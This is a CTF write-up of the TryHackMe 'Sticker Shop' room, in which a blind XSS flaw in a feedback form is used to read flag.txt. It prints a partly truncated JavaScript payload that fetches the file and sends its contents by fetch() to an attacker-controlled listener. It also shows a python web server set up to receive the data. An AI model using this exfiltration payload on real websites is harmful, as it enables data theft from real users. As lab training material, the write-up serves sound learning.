







Sticker Shop is an easy CTF hosted on Tryhackme. This is one of the easiest machines I\'ve done and in this write-up, I am going to give you a detailed guide on how to \'pwn\' it as well.

When I first started the machine, I noticed it had some instructions.

## Starting the Machine


From the instructions, I already know the machine has a web server running at port 8080. It also gives clear instructions on where the flag can be found.

With any other machine, I would have first started off with an Nmap scan but in this case it\'s not relevant. I went straight to the webpage specified in the instructions.



Upon reaching the webpage I received a 401 (Unauthorized) error so I knew I had to try another way. I navigated to the main web page ie, the root directory.



I then checked the source code for the webpage to see if I could find anything interesting, unfortunately I did not.

I then moved to the feedback page.



This seems like a simple form that takes feedback and sends it somewhere. I left a random feedback saying \"I like you stickers\" just to observe how the application will respond.



I received an interesting response after I submitted my feedback. It says the feedback will be evaluated by staff. Here, I had the idea that the feedback field might be vulnerable to injection attacks (XSS).

## Testing for Command Injection Attacks

To test this, I started a simple web server on my Kali using python

```bash
python3 -m http.server <YOUR_PORT>
```



In the feedback form I tried to get the webserver to make a GET request to the webserver I just set up. If I do get a GET request made to my python webserver I will know that the Feedback form is vulnerable to injection attacks.



Going back to the terminal where I have the python webserver running, I can see that there was a GET request made to the webserver! This proves the Feedback form is vulnerable


## Crafting the Payload

Now, this is the part I found most difficult. Crafting a JavaScript payload that would read the contents of the flag file and then send it over to my Kali machine. I have some basic knowledge of JS and it\'s syntax but I was not able to successfully do this.

I searched online and found this code that worked for me.

```js
 r.text()).then(r => fetch('http://<YOUR_IP>:<YOUR_PORT>/?f=' + r))"/>
```

Basically what the code above does is;

- It tries to load an image that doesn\'t exist hence executing the onerror() function.
- From the onerror function, it gets the text contents of the flag.txt file
- And then it makes a request to our python webserver passing the contents of the flag.txt file as an argument (f).

Going back to the terminal, I successfully received the contents of the flag.txt file. Notice the flag is passed an an argument when the GET request was made.



That's it. There are lots of other ways this flag could be obtained by this is what I went with according to my skills and knowledge.

I hope you found this guide helpful and easy to understand. That will be all for this one, till we meet again! :-)
